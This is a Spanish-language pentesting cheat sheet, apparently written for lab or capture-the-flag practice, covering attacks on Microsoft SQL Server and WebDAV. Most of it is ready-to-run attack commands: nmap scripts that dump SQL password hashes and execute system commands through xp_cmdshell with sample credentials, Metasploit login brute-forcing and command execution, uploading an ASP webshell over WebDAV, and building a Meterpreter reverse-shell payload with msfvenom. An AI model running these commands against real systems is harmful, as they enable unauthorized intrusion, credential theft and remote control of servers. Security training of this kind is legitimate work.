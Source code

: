 ### MSSQL - 1433
Microsoft SQL Server (MSSQL) es un sistema de gestión de bases de datos relacionales desarrollado por Microsoft. Opera en el puerto 1433, facilitando la comunicación entre aplicaciones y bases de datos, permitiendo el almacenamiento y acceso a datos estructurados, con énfasis en la integración con el ecosistema de Microsoft.

```python
nmap --script ms-sql-info -p 1433 IP
nmap -p 1433 --script ms-sql-ntlm-info --script-args mssql.instance-port=1433 IP
nmap -p 1433 --script ms-sql-empty-password IP
nmap -p 1433 --script ms-sql-query --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-query.query="SELECT * FROM master..syslogins" IP -oN output.txt
nmap -p 1433 --script ms-sql-dump-hashes --script-args mssql.username=admin,mssql.password=anamaria IP
nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd="ipconfig" IP
nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd="type c:\flag.txt" IP
```

#### Diccionarios
Lista de palabras para ataques de fuerza bruta

```python
No hay en este caso
```

##### Metasploit
Utilidades de la herramienta todo terreno carnal

```python
use auxiliary/scanner/mssql/mssql_login
set RHOSTS IP set USER_FILE /root/Desktop/wordlist/common_users.txt
set PASS_FILE /root/Desktop/wordlist/100-common-passwords.txt
set VERBOSE false
use auxiliary/admin/mssql/mssql_enum
use auxiliary/admin/mssql/mssql_enum_sql_logins
use auxiliary/admin/mssql/mssql_exec (set CMD whoami)
use auxiliary/admin/mssql/mssql_enum_domain_accounts
```

### WebDAV - 80/443
WebDAV (Web Distributed Authoring and Versioning) es una extensión del protocolo HTTP que permite la colaboración y la edición remota de archivos en servidores web. Opera en los puertos 80 y 443, posibilitando el acceso y la gestión de archivos a través de conexiones no cifradas (80) y cifradas (443) en entornos seguros.

```python
DavTest (tool) - valida que archivo se puede cargar
Cadaver (tool) - para cargar archivos 
nmap -p80 -sV --script http-enum IP (1)
Open site web (2)
davtest -auth bob:password_123321 -url http://IP/webdav/ (3)
cadaver http://IP/webdav/ (4) - autenticarse
put /usr/share/webshells/asp/webshell.asp (5) - subir la carga shell
more C:\flag.txt
Generar Shell Inverso
msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=1234 -f asp > shell.asp
use exploit/multi/handler or listen shell
```
